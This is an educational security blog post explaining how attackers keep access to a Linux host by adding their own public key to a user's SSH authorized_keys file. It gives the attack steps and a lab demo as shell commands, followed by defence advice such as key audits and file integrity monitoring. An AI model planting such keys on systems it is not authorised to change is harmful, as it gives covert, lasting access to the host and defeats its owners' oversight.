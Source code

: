 ```yaml
---
title : "Linux Backdoors"
date : 2025-07-10
layout : post
categories : [BACKDOOR]
tags : [SSH, BACKDOOR, PERSISTENCE, LINUX]
author : jana
---
```


# SSH Backdoors: Persistence Through Authorized Keys

Hello security pros! 👋  

Welcome back to another dive into **Linux persistence mechanisms attackers love**.  
Today, we’re looking at one of the most common — yet often overlooked — techniques: the **SSH authorized_keys backdoor**.  

It’s clean, reliable, and doesn’t rely on exploiting binaries or injecting shell tricks. Instead, it abuses a feature meant for convenience: **public key authentication**.  

---

## 🔍 What Is an SSH Backdoor?

An **SSH backdoor** leverages the SSH key-based authentication system to maintain persistence on a compromised Linux host.  

Instead of needing a password, the attacker adds their own **public key** into the victim’s `~/.ssh/authorized_keys` file.  

Result? The attacker can log back in anytime using their **private key**, bypassing password authentication and blending in as a “legit” user.  

---

## 🧠 How Authorized Keys Work  

- Users store trusted public keys in `~/.ssh/authorized_keys`  
- If a connecting client proves ownership of the matching private key, login is granted  
- No password is required  
- This is a normal feature — but if abused, it becomes a stealthy persistence mechanism  

---

## 🧰 The Attack: Step-by-Step  

### ✅ Step 1: Initial Access  
The attacker compromises the system (via exploit, weak creds, phishing, etc.).  

### ✅ Step 2: Key Setup  
On their own machine, the attacker generates a key pair:  

\`\`\`bash
ssh-keygen -t rsa -b 4096
\`\`\`

This produces:  
- Private key: `~/.ssh/id_rsa`  
- Public key: `~/.ssh/id_rsa.pub`  

### ✅ Step 3: Plant the Backdoor  
The attacker appends their public key to the victim’s authorized_keys file:  

\`\`\`bash
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC..." >> /home/alice/.ssh/authorized_keys
\`\`\`

Now Alice’s account trusts the attacker’s key.  

### ✅ Step 4: Silent Re-Entry  
From then on, the attacker can connect like so:  

\`\`\`bash
ssh -i ~/.ssh/id_rsa alice@victim_ip
\`\`\`

No password prompt. Instant persistence.  

---

## 🔁 Attack Flow Recap  

| Step              | Action                                           |
|-------------------|-------------------------------------------------|
| 🎯 Initial Access | Attacker compromises system                     |
| 🔑 Key Pair Gen   | Attacker creates SSH key pair                   |
| 📝 Key Injection  | Public key added to victim’s authorized_keys    |
| 🚪 Backdoor Entry | Attacker logs in anytime using private key      |

---

## 🕵️ Why It’s Sneaky  

✅ Uses a legitimate SSH feature  
✅ Doesn’t require root (user-level persistence works fine)  
✅ Blends with real admin/dev usage  
✅ Survives reboots and logouts  
✅ Password changes don’t matter — key still works  

This makes it a favorite among attackers and red teamers alike.  

---

## 🧪 Lab Example (Safe Demo)  

**On attacker machine:**  
\`\`\`bash
ssh-keygen -t rsa -b 2048
\`\`\`

**On target machine:**  
\`\`\`bash
mkdir -p ~/.ssh
chmod 700 ~/.ssh
echo "ssh-rsa AAAAB3Nza..." >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
\`\`\`

**Test the backdoor:**  
\`\`\`bash
ssh -i ~/.ssh/id_rsa user@victim_ip
\`\`\`

➡️ Instant login without password.  

---

## ⚠️ Limitations  

- ❌ Limited to SSH access (no shell execution if SSH is disabled)  
- ❌ Easy to spot if defenders audit authorized_keys  
- ❌ Requires attacker to manage their private key securely  
- ❌ Can be blocked by central key management or strict configs  

---

## 🛡️ Defense Strategies  

- **Audit SSH Keys:**  
  Regularly inspect `~/.ssh/authorized_keys` for unexpected entries  
  Enforce centralized key management  

- **Restrict Access:**  
  Disable password-less logins where possible  
  Enforce MFA for SSH access  

- **Monitor SSH Logins:**  
  Track unusual logins or new SSH key usage  
  Alert on logins from strange IPs or odd times  

- **File Integrity Monitoring:**  
  Use AIDE, Tripwire, or auditd to detect changes in `~/.ssh/authorized_keys`  

---

## 🧠 Final Thoughts  

SSH backdoors are one of the **cleanest persistence methods** attackers use. They rely on nothing but native functionality, making them stealthy and reliable.  

- For red teamers: it’s a straightforward persistence trick.  
- For blue teamers: it’s a reminder that **authorized_keys is a high-value file**.  
- For learners: it’s a perfect example of how normal features can be weaponized.  

---

⚠️ **Disclaimer:** This post is for **educational purposes only**. Do not test these techniques on systems you do not own or without explicit permission.  

Stay sharp, monitor your keys, and never assume SSH is “just working fine.” 😉  
